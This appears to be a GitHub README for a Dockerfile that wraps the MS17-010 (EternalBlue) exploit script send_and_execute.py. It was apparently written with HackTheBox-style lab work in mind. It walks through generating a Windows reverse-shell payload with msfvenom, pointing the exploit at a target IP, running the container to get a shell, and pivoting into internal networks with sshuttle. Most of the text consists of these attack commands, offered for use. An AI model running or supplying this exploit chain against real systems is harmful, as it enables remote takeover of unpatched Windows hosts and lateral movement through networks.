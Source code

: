 # MS17-010-Dockerfile

Most of the python scripts to manually use MS17-010 depends on python2 and pip. This just makes it easier to use.

This is a dockerfile to make the use of send_and_execute.py easier. 

It uses the library mysmb.py from 

https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py

And send_and_execute from 

https://raw.githubusercontent.com/H3xL00m/MS17-010_CVE-2017-0143/main/send_and_execute.py

Got inspired by this post

https://ronamosa.io/docs/hacker/hackthebox/legacy/#move-to-python3

Had to fix his Dockerfile to use an outdated version of impacket. 

# How to use it

1) Git clone this repo

2) Generate your payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.52 LPORT=44449 EXITFUNC=thread -f exe -a x86 --platform windows -o -rev.exe
```

Put it in files/

3) Modify the Dockerfile to set your target. Change the last line

```
CMD ["/usr/local/bin/python", "./send_and_execute.py", "172.16.1.20", "./rev.exe"]
```

3) Build your container

```
docker build -t eternalblue ./
```

4) Setup your listener to the port used in your payload

5) Run your container

```
docker run -it eternalblue
```

6) Get a shell

## Pivoting

I've had good luck with sshuttle to target a host that is not directly accessible from my local machine

Make sure that sshuttle is exposing the rules to 0.0.0.0

```
sshuttle -r root@10.10.110.100 172.16.1.0/24 -v --dns -l 0.0.0.0
```

Bring the tunnel up just before running the container


